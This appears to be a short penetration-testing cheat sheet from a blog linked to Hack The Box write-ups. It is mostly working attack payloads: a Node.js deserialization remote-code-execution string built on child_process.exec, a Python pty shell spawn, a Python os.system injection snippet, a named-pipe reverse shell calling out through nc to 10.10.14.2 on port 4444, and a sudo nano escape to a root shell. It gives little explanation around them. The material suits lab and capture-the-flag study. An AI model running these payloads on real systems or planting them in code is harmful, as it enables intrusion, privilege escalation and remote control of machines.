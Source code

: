 ```yaml
---
title: "Highlights"
date: 2020-01-03T20:06:24-05:00
draft: false
description: "Node.js deserialization exploit | Fully Interactive TTY | Nano Escape | Python RCE"
---
```


# Node.js deserialization exploit  

https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/  

```js
{"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec  
('uname -a', function(error, stdout, stderr)  
{ console.log(stdout) });  \n }  
()"}  
```  


In this case the () is javascripts way of immediate function invokation, the first part of the code will build the function. 

# Spawn Fully Interactive TTY
```bash
$ /bin/bash # drop out of zsh b/c not compatible
# get initial terminal session
$ ctrl-z
$ stty raw -echo # - indicates disabling the stopping of the echo
$ fg 
$ reset
```

# Shell Spawn Python

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
# Python Command Injection

```python
__import__("os"); os.system("pwd")
```

# Python code injection w/import and backpiping

```bash
__import__("os").system("mknod /tmp/backpipe2 p && /bin/sh 0</tmp/backpipe2 | nc 10.10.14.2 4444 1>/tmp/backpipe2")
```

# Nano Escape

Opening nano as sudo we can then perform:
```bash
^R^X
Reset; sh 1>&0 2>&0
```
_Where ^R^X is ctrl+R and ctrl+X._

# HTB Writeups
[OpenAdmin](../../post/htb/openadmin)
[Postman](../../post/htb/postman)
[Craft](../../post/htb/craft)
[Sneaky - Coming Soon](../../post/htb/sneaky)
[Traverxec - Coming Soon](../../post/htb/traverxec)

![test image](/img/craft/developer.png)